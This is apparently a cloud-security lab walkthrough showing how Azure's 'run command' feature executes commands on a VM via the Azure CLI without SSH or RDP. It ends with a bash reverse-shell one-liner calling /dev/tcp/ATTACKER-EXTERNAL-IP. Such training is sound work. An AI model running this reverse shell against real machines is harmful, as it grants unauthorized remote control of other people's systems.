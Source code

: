 # Use the Azure Run command

## Introduction

Azure provides a 'run command' feature that allows you to execute commands without requiring SSH or SMB/RDP access to a machine. This is very similar to AWS SSM.

## What are we going to cover?

Execute a command remotely and gain shell access to machine.

## Steps to achieve this

- Login into the Azure CLI from the student machine if you haven't already using `az login --use-device-code`
- List all group names

```
az group list
```

- List VMs inside your group. Replace GROUP-NAME from the output of the previous command

```
az vm list -g GROUP-NAME
```

- If your VM is a Linux machine, you can then issue a run command for the Linux command `id`. Replace VM-NAME from the previous command

```
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "id"
```

- If your VM is a Windows machine, you can then issue a run command for the Windows command `whoami`. Note the change in the value of `--command-id` argument

```
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunPowerShellScript --scripts "whoami"
```

- To pop a reverse shell, based on the target operating system the following command will change. An example for Linux is shown below. Setup a netcat listener on your AWS Cloudhacker machine on port 9090. Make sure AWS Security Groups has 9090 open as well. Run the following command to obtain a reverse shell from your Azure instance to the Attacker machine.

```
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "bash -c \"bash -i >& /dev/tcp/ATTACKER-EXTERNAL-IP/9090 0>&1\""
```

## Additional references

- [Azure Run command](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command)
